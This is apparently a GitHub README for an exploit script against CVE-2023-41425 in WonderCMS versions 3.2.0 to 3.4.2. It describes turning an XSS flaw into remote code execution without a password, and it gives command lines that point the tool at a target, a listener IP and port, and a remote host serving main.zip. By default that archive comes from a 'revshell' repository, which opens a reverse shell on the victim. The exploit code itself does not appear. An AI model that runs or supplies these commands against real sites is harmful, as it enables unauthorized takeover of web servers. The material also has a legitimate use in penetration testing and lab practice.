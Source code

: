 
# RCE for  WonderCMS versions v3.2.0 to v3.4.2


WonderCMS versions v3.2.0 to v3.4.2 with XSS vulnerability allow a malicious actor to achieve RCE by uploading a component to the installModule CVE-2023-41425 (No need to know the password).


## Features:

- Automated exploitation of CVE-2023-41425
- Ease of specifying the remote host where the zip is downloaded from



## Usage/Examples
Specifying the remote host from where the main.zip file is downloaded
```
./exploit.py -u http://example.com/loginURL -i 10.10.14.110 -p 4321 -r http://10.10.14.110:8000/main.zip
```

OR
not specifying the main.zip file. By default, it downloads from [main.zip](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip)

```
./exploit.py -u http://example.com/loginURL -i 10.10.14.110 -p 4321
```

## Screenshots

![Useage](./img/1.png)
![Useage](./img/2.png)


## 🔗 Links

[![my website](https://img.shields.io/badge/website-000000?style=for-the-badge&logo=About.me&logoColor=black&labelColor=gold)](https://insomnia-jacob.github.io/me/)
[![youtube](https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)](https://www.youtube.com/@Insomnia-dev)
[![twitter](https://img.shields.io/badge/X-000000?style=for-the-badge&logo=x&logoColor=white)](https://x.com/intent/follow?screen_name=insomniadev_) 
[![instagram](https://img.shields.io/badge/Instagram-E4405F?style=for-the-badge&logo=instagram&logoColor=white)](https://www.instagram.com/insomnia.py/)
[![Hack the box](https://img.shields.io/badge/HackTheBox-111927?style=for-the-badge&logo=Hack%20The%20Box&logoColor=9FEF00)](https://app.hackthebox.com/users/1974102)

